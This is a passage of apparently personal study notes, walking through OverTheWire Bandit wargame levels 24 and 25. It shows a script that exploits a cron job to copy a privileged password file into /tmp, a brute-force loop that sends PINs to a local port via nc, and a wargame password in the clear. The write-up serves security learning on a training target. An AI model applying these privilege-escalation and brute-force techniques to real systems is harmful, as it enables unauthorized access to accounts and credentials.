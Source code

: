 5. Obtain the password through the execution of the `script` as `bandit24`.

	```BASH
    #!/bin/bash

    cp /etc/bandit_pass/bandit24 /tmp/tmp.3qnXYcGAz3
    chmod o+r /tmp/tmp.3qnXYcGAz3/bandit24
    ```

6. `cp <temp dir>/script /var/spool/bandit24/foo`: copies the script to the directory where the cron job executes.

7. `cat <temp dir>/bandit24`: displays the content of the temporary file containing the password for `bandit24`.

	> The password for `bandit24` is `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`.

## 44 - Fuerza bruta aplicada a conexiones

### Bandit level 25

1. `cd $(mktemp -d) && touch script && chmod u+x script`: creates a temporary directory and moves to it to create an executable script in the temporary directory.

2. Brute force approach.

	- Direct.

		```BASH
        #!/bin/bash

        for pin in {0000..9999}; do
            timeout 0.75 bash -c "echo 'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin' | nc localhost 30002"

            if [ $? -eq 0 ]; then
                echo "The pin is $pin"
                break
            fi
        done
        ```

		> This solution will take $10000 * 0,75 = 7500 \; \text{s} = 125 \; \text{m}$.

	- Indirect.

		```BASH
        #!/bin/bash

        if [ -f combinations.txt ]; then
            echo "" > combinations.txt
        else
            touch combinations.txt
        fi

        start=9000

        for pin in $(seq $start 9999); do
            echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin" >> combinations.txt
        done
